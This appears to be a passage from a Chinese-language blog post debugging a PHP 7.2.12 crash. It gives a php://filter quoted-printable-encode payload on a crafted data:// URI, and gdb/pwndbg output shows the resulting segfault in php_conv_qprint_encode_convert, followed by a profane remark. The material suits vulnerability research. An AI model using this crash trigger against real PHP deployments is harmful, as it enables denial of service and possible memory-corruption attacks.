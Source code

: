 payload:

```
file(urldecode('php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAFAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA'));
```

结果如下:

```
qianfa@qianfa:~/Desktop/php_debug$ gdb -q php7
pwndbg: loaded 175 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)

Reading symbols from php7...done.
pwndbg> b /home/qianfa/Desktop/php_debug/php-7.2.12/Zend/zend_alloc.c: 433
Breakpoint 1 at 0x8d98f4: file /home/qianfa/Desktop/php_debug/php-7.2.12/Zend/zend_alloc.c, line 433.
pwndbg> b /home/qianfa/Desktop/php_debug/php-7.2.12/Zend/zend_alloc.c: 476
Breakpoint 2 at 0x8d9a2b: file /home/qianfa/Desktop/php_debug/php-7.2.12/Zend/zend_alloc.c, line 476.
pwndbg> r test.php
Starting program: /usr/bin/php7 test.php

Program received signal SIGSEGV, Segmentation fault.
__memcpy_avx_unaligned () at ../sysdeps/x86_64/multiarch/memcpy-avx-unaligned.S:244
244	../sysdeps/x86_64/multiarch/memcpy-avx-unaligned.S: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────[ REGISTERS ]───────────────────────────────────
 RAX  0x7ffff44629c1 ◂— 0x7ffff4462a
 RBX  0x0
 RCX  0xffffffffffffffff
 RDX  0xffffffffffffffff
 RDI  0x7ffff44629c1 ◂— 0x7ffff4462a
 RSI  0x0
 R8   0x7fffffffa060 ◂— 0x38 /* '8' */
 R9   0x0
 R10  0x9
 R11  0x7ffff70bef90 ◂— lahf   
 R12  0x4234e0 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffde70 ◂— 0x2
 R14  0x7ffff441e030 —▸ 0x7ffff4468820 —▸ 0xa04677 (execute_ex+169) ◂— call   0x97d65c
 R15  0x7ffff4468820 —▸ 0xa04677 (execute_ex+169) ◂— call   0x97d65c
 RBP  0x7fffffff9ff0 —▸ 0x7fffffffa0c0 —▸ 0x7fffffffa130 —▸ 0x7fffffffa1d0 —▸ 0x7fffffffa210 ◂— ...
 RSP  0x7fffffff9f58 —▸ 0x850874 (php_conv_qprint_encode_convert+1301) ◂— mov    rax, qword ptr [rbp - 0x68]
 RIP  0x7ffff7078164 (__memcpy_avx_unaligned+708) ◂— vmovdqu ymm4, ymmword ptr [rsi]
────────────────────────────────────[ DISASM ]─────────────────────────────────────
 ► 0x7ffff7078164 <__memcpy_avx_unaligned+708>    vmovdqu ymm4, ymmword ptr [rsi]
   0x7ffff7078168 <__memcpy_avx_unaligned+712>    vmovdqu xmm5, xmmword ptr [rsi + 
```

直接Segmentation fault。。。。。。。。。。。。。。。。。。。。。。。。。。。。。。草泥马哦
